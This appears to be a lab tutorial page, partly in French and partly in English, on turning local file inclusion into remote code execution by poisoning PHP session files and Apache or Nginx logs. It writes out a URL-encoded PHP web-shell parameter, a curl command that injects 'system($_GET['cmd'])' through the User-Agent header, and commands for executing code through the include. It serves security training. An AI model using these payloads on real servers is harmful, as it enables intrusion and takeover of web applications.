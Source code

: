# Log Poisoning

L'idée est d’**injecter du code PHP dans un champ que nous contrôlons**, tel qu’un **User-Agent**, une URL, ou un paramètre GET/POST, **qui sera ensuite enregistré dans un fichier de logs** du serveur (comme un fichier de logs Apache, Nginx ou PHP).

On parle alors de **"contamination" ou "empoisonnement" du fichier de log**.

Ensuite, si une **vulnérabilité de type LFI** est présente, on peut tenter d’**inclure ce fichier de log via LFI**, ce qui aura pour effet d’**exécuter le code PHP injecté** s’il n’a pas été échappé.

***

#### <mark style="color:green;">🧨 Conditions pour réussir l’attaque</mark>

1. L’application web **enregistre dans les logs une donnée contrôlable** (comme un header ou une URL).
2. Le fichier de log est **lisible par le serveur PHP** (permissions `www-data` ou équivalent).
3. Il existe une **LFI exploitable** qui permet d’inclure ce fichier de log.
4. Le serveur ne filtre pas ou n’échappe pas les caractères PHP (`<?php ... ?>`).

***

### <mark style="color:red;">PHP Session Poisoning</mark>

Most PHP web applications utilize `PHPSESSID` cookies, which can hold specific user-related data on the back-end, so the web application can keep track of user details through their cookies.&#x20;

These details are stored in `session` files on the back-end, and saved in `/var/lib/php/sessions/` on Linux and in `C:\Windows\Temp\` on Windows.&#x20;

The name of the file that contains our user's data matches the name of our `PHPSESSID` cookie with the `sess_` prefix. For example, if the `PHPSESSID` cookie is set to `el4ukv0kqbvoirg7nkp4dncpk3`, then its location on disk would be `/var/lib/php/sessions/sess_el4ukv0kqbvoirg7nkp4dncpk3`.

The first thing we need to do in a PHP Session Poisoning attack is to examine our PHPSESSID session file and see if it contains any data we can control and poison. So, let's first check if we have a `PHPSESSID` cookie set to our session:

<figure><img src="../../.gitbook/assets/image (115).png" alt=""><figcaption></figcaption></figure>

As we can see, our `PHPSESSID` cookie value is `nhhv8i0o6ua4g88bkdl9u1fdsd`, so it should be stored at `/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd`. Let's try include this session file through the LFI vulnerability and view its contents:

<figure><img src="../../.gitbook/assets/image (116).png" alt=""><figcaption></figcaption></figure>

We can see that the session file contains two values: `page`, which shows the selected language page, and `preference`, which shows the selected language. The `preference` value is not under our control, as we did not specify it anywhere and must be automatically specified. However, the `page` value is under our control, as we can control it through the `?language=` parameter.

Let's try setting the value of `page` a custom value (e.g. `language parameter`) and see if it changes in the session file. We can do so by simply visiting the page with `?language=session_poisoning` specified, as follows:

```url
http://<SERVER_IP>:<PORT>/index.php?language=session_poisoning
```

Now, let's include the session file once again to look at the contents:

<figure><img src="../../.gitbook/assets/image (117).png" alt=""><figcaption></figcaption></figure>

This time, the session file contains `session_poisoning` instead of `es.php`, which confirms our ability to control the value of `page` in the session file. Our next step is to perform the `poisoning` step by writing PHP code to the session file. We can write a basic PHP web shell by changing the `?language=` parameter to a URL encoded web shell, as follows:

{% code overflow="wrap" fullWidth="true" %}
```url
http://<SERVER_IP>:<PORT>/index.php?language=%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E
```
{% endcode %}

Finally, we can include the session file and use the `&cmd=id` to execute a commands:

http://\<SERVER\_IP>:/index.php?language=/var/lib/php/sessions/sess\_hvkg1jclhsqefaillf0gst31nm\&cmd=id

&#x20; &#x20;

<figure><img src="https://academy.hackthebox.com/storage/modules/23/rfi_session_id.png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
Note: To execute another command, the session file has to be poisoned with the web shell again, as it gets overwritten with `/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd` after our last inclusion. Ideally, we would use the poisoned web shell to write a permanent web shell to the web directory, or send a reverse shell for easier interaction.
{% endhint %}

***

### <mark style="color:red;">Server Log Poisoning</mark>

Both `Apache` and `Nginx` maintain various log files, such as `access.log` and `error.log`. The `access.log` file contains various information about all requests made to the server, including each request's `User-Agent` header. As we can control the `User-Agent` header in our requests, we can use it to poison the server logs as we did above.

Once poisoned, we need to include the logs through the LFI vulnerability, and for that we need to have read-access over the logs. `Nginx` logs are readable by low privileged users by default (e.g. `www-data`), while the `Apache` logs are only readable by users with high privileges (e.g. `root`/`adm` groups). However, in older or misconfigured `Apache` servers, these logs may be readable by low-privileged users.

By default, `Apache` logs are located in `/var/log/apache2/` on Linux and in `C:\xampp\apache\logs\`&#x20;

on Windows, while `Nginx` logs are located in `/var/log/nginx/` on Linux and in `C:\nginx\log\` on Windows. However, the logs may be in a different location in some cases, so we may use an [LFI Wordlist](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI) to fuzz for their locations, as will be discussed in the next section.

So, let's try including the Apache access log from `/var/log/apache2/access.log`, and see what we get:

<figure><img src="../../.gitbook/assets/image (119).png" alt=""><figcaption></figcaption></figure>

As we can see, we can read the log. The log contains the `remote IP address`, `request page`, `response code`, and the `User-Agent` header. As mentioned earlier, the `User-Agent` header is controlled by us through the HTTP request headers, so we should be able to poison this value.

Tip: Logs tend to be huge, and loading them in an LFI vulnerability may take a while to load, or even crash the server in worst-case scenarios. So, be careful and efficient with them in a production environment, and don't send unnecessary requests.

To do so, we will use `Burp Suite` to intercept our earlier LFI request and modify the `User-Agent` header to `Apache Log Poisoning`:

<figure><img src="../../.gitbook/assets/image (120).png" alt=""><figcaption></figcaption></figure>

Note: As all requests to the server get logged, we can poison any request to the web application, and not necessarily the LFI one as we did above.

As expected, our custom User-Agent value is visible in the included log file. Now, we can poison the `User-Agent` header by setting it to a basic PHP web shell:&#x20;

<figure><img src="../../.gitbook/assets/image (121).png" alt=""><figcaption></figcaption></figure>

We may also poison the log by sending a request through cURL, as follows:

{% code overflow="wrap" fullWidth="true" %}
```shell-session
mrroboteLiot@htb[/htb]$ curl -s "http://<SERVER_IP>:<PORT>/index.php" -A "<?php system($_GET['cmd']); ?>"
```
{% endcode %}

As the log should now contain PHP code, the LFI vulnerability should execute this code, and we should be able to gain remote code execution. We can specify a command to be executed with (`?cmd=id`):&#x20;

<figure><img src="../../.gitbook/assets/image (122).png" alt=""><figcaption></figcaption></figure>

We see that we successfully executed the command. The exact same attack can be carried out on `Nginx` logs as well.

{% hint style="danger" %}
Tip: The `User-Agent` header is also shown on process files under the Linux `/proc/` directory. So, we can try including the `/proc/self/environ` or `/proc/self/fd/N` files (where N is a PID usually between 0-50), and we may be able to perform the same attack on these files. This may become handy in case we did not have read access over the server logs, however, these files may only be readable by privileged users as well.

Finally, there are other similar log poisoning techniques that we may utilize on various system logs, depending on which logs we have read access over. The following are some of the service logs we may be able to read:

* `/var/log/sshd.log`
* `/var/log/mail`
* `/var/log/vsftpd.log`

We should first attempt reading these logs through LFI, and if we do have access to them, we can try to poison them as we did above. For example, if the `ssh` or `ftp` services are exposed to us, and we can read their logs through LFI, then we can try logging into them and set the username to PHP code, and upon including their logs, the PHP code would execute. The same applies the `mail` services, as we can send an email containing PHP code, and upon its log inclusion, the PHP code would execute. We can generalize this technique to any logs that log a parameter we control and that we can read through the LFI vulnerability.
{% endhint %}
